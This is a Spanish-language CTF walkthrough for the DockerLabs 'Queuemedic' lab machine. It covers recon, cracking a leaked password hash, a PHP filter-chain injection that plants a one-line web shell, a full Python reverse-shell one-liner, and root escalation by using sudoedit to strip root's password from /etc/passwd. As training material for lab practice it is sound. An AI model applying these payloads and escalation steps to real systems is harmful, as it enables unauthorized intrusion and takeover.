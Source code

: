 # [Docerlabs](https://dockerlabs.es/) - Queuemedic - Hard

### 1) Iniciamos la maquina.
```bash
sudo ./auto_deploy.sh queuemedic.tar
```

![](ANEXOS/Pasted%20image%2020240925173632.png)

### 2) Nos dirigimos al navegador e ingresamos la dirección http://172.17.0.2.
![](ANEXOS/Pasted%20image%2020240925173823.png)

***Al ingresar a la url se carga un formulario de acceso.***

![](ANEXOS/Pasted%20image%2020240925180151.png)

***Analizando la web con wappalyzer no se encontró ninguna información que nos pueda llamar la atención para investigar.***

### 3) Realizamos un escaneo de puertos con nmap.
```shell
nmap -sV -Pn 172.17.0.2 
```

![](ANEXOS/Pasted%20image%2020240925174021.png)

***Al terminar el proceso se encontró un solo puerto abierto el 80 con un servidor Apache.***

### 4) Realizamos una búsqueda de carpetas y archivos con gobuster.

```shell
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirb/common.txt --exclude-length 0,275
```

![](ANEXOS/Pasted%20image%2020240925174813.png)

***Al terminar el proceso se encontro con varias carpetas con posibles datos sensibles ellas son /backup y /db.***

### 5) Nos dirigimos a la url de /backup http://172.17.0.2/backup.

![](ANEXOS/Pasted%20image%2020240925175148.png)

***Al ingresar vemos un archivo con extensión .zip lo cual procedemos a descargarlo para su posterior análisis.***

### 6) Nos dirigimos a la url de /db http://172.17.0.2/db.
 
![](ANEXOS/Pasted%20image%2020240925175503.png)

***Al ingresar observamos un archivo con extensión .db lo cual procedemos a descargarlo para su posterior análisis.***

### 7) Analizamos los archivos descargados:
a) Descomprimimos y verificamos el contenido del archivo backup.zip.	
	
![](ANEXOS/Pasted%20image%2020240925175854.png)

***Nos encontramos con un backup completo del sistema Clinic Queuing System, en el cual realizando un análisis de cada archivo se encontró una posible vulnerabilidad en "index.php "en el método que utiliza para llamar a "page".***
	
b) Abrimos el archivo clinic_queuing_db.db con sqlitebrowser.

![](ANEXOS/Pasted%20image%2020240925180826.png)

***Al abrir la base de datos podemos ver las tablas de la db y desplegamos la tabla user_list***

![](ANEXOS/Pasted%20image%2020240925181901.png)

***Al realizar la consulta sobre esta tabla user_list, se puede observar el contenido del mismo con los datos de username y password en la cual esta encriptada.***
	
### 8) Ataque de diccionario a los hashes encontrados.
a) ***Al realizar el ataque por fuerza bruta no se pudo obtener la contraseña de Administrador.***
b) ***Para obtener una lista con posibles contraseña para el usuario "Jessica Castro" utilizamos ChatGpt en el cual nos brinda una lista de 100 posibles contraseñas.***
	
![](ANEXOS/Pasted%20image%2020240925183606.png)
![](ANEXOS/Pasted%20image%2020240925183512.png)

***Al finalizar el ataque por fuerza bruta con john the ripper pudo obtener una contraseña que concuerda con el hash del usuario "jessica" la cual es "j.castro".***

### 9) Volviendo la pagina principal en el login http://172.17.0.2.
![](ANEXOS/Pasted%20image%2020240925184644.png)

***Iniciamos sesión con las credenciales obtenidas.***
![](ANEXOS/Pasted%20image%2020240925184845.png)

***Analizando la pagina web ademas de un xss en el registro de usuarios y pasientes no se encontro.***

### 10) Busueda de Clinic Queuing System (php) en google.
![](ANEXOS/Pasted%20image%2020240925185754.png)

***Al realizar la búsqueda en google no encontramos con el cms pero también arrojo en exploit-db un exploit en el cual se pude obtener RCE.***

### 11) Descarga https://www.exploit-db.com/exploits/52008 y análisis del exploit.

### 12) Al descargar y ejecutar el exploit vemos que no realiza la explotación del servicio.
![](ANEXOS/Pasted%20image%2020241011082236.png)

### 13) Analizando en detalle el código del sitio y el exploit encontré que había unas validaciones que hace la pagina por lo cual el exploit no puede realizar correctamente su cometido. 

### 14) Fijándome mas en detalle tengo acceso a un usuario que es administrador y en el exploit crea un usuario administrador entonces lo que se me ocurrió a analizar en que parámetros inyecta para obtener un RCE.
![](ANEXOS/Pasted%20image%2020241011083138.png)

### 15) Como se observa en la imagen el exploit inyecta en el parámetro `?page=` un `filter_chain` y después en el parámetro `&0=`, crea el archivo `rce.php` y escribe el contendido ``<?=`$_GET[0]`?>`` parseado en base64.

### 16) Entonces lo que tuve que hacer es unir todo el contenido de la variable `filter_chain` mas el parámetro 0 y ejecutarlo directamente en el navegador.
![](ANEXOS/Pasted%20image%2020241011085843.png)

***El `filter_chain` es mas extenso pero así quedaría para inyectarlo directamente al navegador.***

![](ANEXOS/Pasted%20image%2020241011090029.png)

***Ya tengo ejecución de comandos***

### 17) Ahora creo una reverse shell utilizando python3.

 ```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("172.17.0.1",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
 ```
 
 y en mi consola obtengo la conexión.
 
![](ANEXOS/Pasted%20image%2020241011090521.png)
	 
### 18) Luego del tratamiento de la tty, listo el contenido del escritorio donde estoy ubicado y también listo la carpeta /home, en el cual encontré una carpeta jessica del que creo que es un usuario de sistema entonces realizo un cat al archivo /etc/passwd y encuentro al usuario.
![](ANEXOS/Pasted%20image%2020241011092359.png)

### 19) Como tengo un usuario llamado con el mismo nombre que el usuario de la web y como ya tengo una contraseña lo que hago es poner la misma contraseña y ahi ingreso al usuario jessica del sistema.
![](ANEXOS/Pasted%20image%2020241011092814.png)

### 20) Ahora con `sudo -l` listo los privilegios que tiene el usuario jessica, en este caso tiene los privilegios root para utilizar suodedit en la varpeta /var/www/html/.
![](ANEXOS/Pasted%20image%2020241011102543.png)

### 21) Para elevar privilegios a root primeramente tengo que setear el editor global a nano ya que vim no esta instalado y al editarlo también pongo la opción que se me abra para editar el archivo /etc/passwd.
![](ANEXOS/Pasted%20image%2020241011103016.png)

### 22) Ahora que ya tengo todo seteado abro el editor en la ubicación que vimos al listar son sudo -l, entonces ejecuto sudoedit /var/www/html/, Se me abrirá automáticamente el archivo /etc/passwd.
![](ANEXOS/Pasted%20image%2020241011103622.png)

### 23) Ahora que obtuve acceso para editar el archivo /etc/passwd como root lo que queda es eliminar la letra x que esta en el usuario root y esto significa que le quito la contraseña que tenia asignada anteriormente.
![](ANEXOS/Pasted%20image%2020241011103944.png)

### 24) Guardo los cambios y salgo y luego escribo su y presiono enter y ya obtengo acceso a root.
![](ANEXOS/Pasted%20image%2020241011104942.png)

